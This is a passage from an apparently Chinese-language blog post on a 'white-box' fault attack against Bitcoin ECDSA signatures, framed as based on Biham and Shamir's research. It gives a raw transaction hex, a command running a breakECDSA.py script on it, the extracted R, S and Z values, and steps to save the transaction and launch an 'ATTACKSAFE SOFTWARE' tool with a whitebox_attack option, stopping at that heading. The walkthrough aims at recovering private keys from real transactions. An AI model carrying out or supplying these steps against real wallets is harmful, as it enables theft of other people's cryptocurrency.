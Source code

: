 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-43-1024x140.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1641"/></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001794e79fc042a7644cc4deb6e7858416dd8b898fe418b2894f8d3772ce8d132a0180000006a473044022048771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba502202756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be701210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff010c03000000000000232103d68f90ba81455256cb7a0df14fb3930d6df61393207f2f3e71659414d296e0f0ac00000000
</code></pre>



<h2>現在我們需要從所有易受攻擊的交易中獲取所有的 R、S、Z 值</h2>



<p>讓我們使用 breakECDSA.py 腳本</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001794e79fc042a7644cc4deb6e7858416dd8b898fe418b2894f8d3772ce8d132a0180000006a473044022048771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba502202756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be701210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff010c03000000000000232103d68f90ba81455256cb7a0df14fb3930d6df61393207f2f3e71659414d296e0f0ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-44-1024x216.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1643"/></figure>



<pre class="wp-block-code"><code>R = 0x48771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba5
S = 0x2756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be7
Z = 0xa402dc224f712e09602b06c595f272f3e09408f052d8fba3d88609bbbb150139</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001794e79fc042a7644cc4deb6e7858416dd8b898fe418b2894f8d3772ce8d132a0180000006a473044022048771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba502202756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be701210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff010c03000000000000232103d68f90ba81455256cb7a0df14fb3930d6df61393207f2f3e71659414d296e0f0ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



